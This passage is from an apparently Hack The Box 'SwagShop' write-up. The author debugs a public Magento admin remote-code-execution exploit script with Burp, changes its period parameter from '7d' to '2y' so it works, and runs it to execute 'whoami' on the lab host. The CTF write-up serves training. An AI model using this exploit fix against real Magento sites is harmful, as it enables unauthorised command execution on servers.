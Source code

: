 ```text
request = br.open(url + 'block/tab_orders/period/7d/?isAjax=true', data='isAjax=false&form_key=' + key)
tunnel = re.search("src=\"(.*)\?ga=", request.read())
tunnel = tunnel.group(1) . #line 74
```

The first line in the above code is the request that we saw in Burp. The second line seems to be doing some kind of regex, looking for the string “ga=” in the response. Then the third line \(line 74\) [does a match on the first parenthesised subgroup of the tunnel parameter](https://stackoverflow.com/questions/14909777/what-does-the-1-in-match-group1-mean). Since it’s finding nothing, we’re getting the ‘NoneType’ error.

Let’s visit that URL in the browser to see what’s going on. In Burp, right click on the request, select _Request in browser_ &gt; _In original session_.

![](https://miro.medium.com/max/1064/1*lgkHV4B2EtEwry7YZ6ayDQ.png)

Then click on the _Copy_ button and try the URL in the browser \(you have to have your browser configured to go through Burp\). We get the following page.

![](https://miro.medium.com/max/962/1*pbbVEt92nfnxx7SN4HZISg.png)

That’s the rendered version of the code we saw in the Response tab of Burp. I tried selecting the range in the drop down menu but that wasn’t sending any requests, so I started manipulating the value in the URL. I tried all the possible values \(24h, 7d, 1m,1y and 2y\), all of them gave me the same response with the exception of the 2y option, I get the following page.

![](https://miro.medium.com/max/693/1*2LRvGzCrMJr0ZQn0XgRJCA.png)

If you view the source code, you’ll find the following URL.

```text
...
<img src="http://10.10.10.140/index.php/admin/dashboard/tunnel/key/7ab75c459aa9aa75aaf35f957579c666/?ga=YTo5OntzOjM6ImNodCI7czoyOiJsYyI7czozOiJjaGYiO3M6Mzk6ImJnLHMsZjRmNGY0fGMsbGcsOTAsZmZmZmZmLDAuMSxlZGVkZWQsMCI7czozOiJjaG0iO3M6MTQ6IkIsZjRkNGIyLDAsMCwwIjtzOjQ6ImNoY28iO3M6NjoiZGI0ODE0IjtzOjM6ImNoZCI7czoyMjoiZTpBQUFBQUFxcUFBQUFBQUFBQUFBQSI7czo0OiJjaHh0IjtzOjM6IngseSI7czo0OiJjaHhsIjtzOjU4OiIwOnx8MDIvMjAxOXx8MDUvMjAxOXx8MDgvMjAxOXx8MTAvMjAxOXx8MTIvMjAxOXwxOnwwfDF8MnwzIjtzOjM6ImNocyI7czo3OiI1ODd4MzAwIjtzOjM6ImNoZyI7czozNToiMTEuMTExMTExMTExMTExLDMzLjMzMzMzMzMzMzMzMywxLDAiO30%253D&h=b47e205efe9e93bcf282877b9609b5b5" alt="chart" title="chart" />
...
```

The url includes the “ga=” regex string that the script was looking but couldn’t find! So if we change the period to “2y” in the script, we should get a working exploit!

```text
request = br.open(url + 'block/tab_orders/period/2y/?isAjax=true', data='isAjax=false&form_key=' + key)
```

Run the script again.

```text
root@kali:~/Desktop/htb/swagshop# python 37811.py  http://10.10.10.140/index.php/admin "whoami"www-data
```
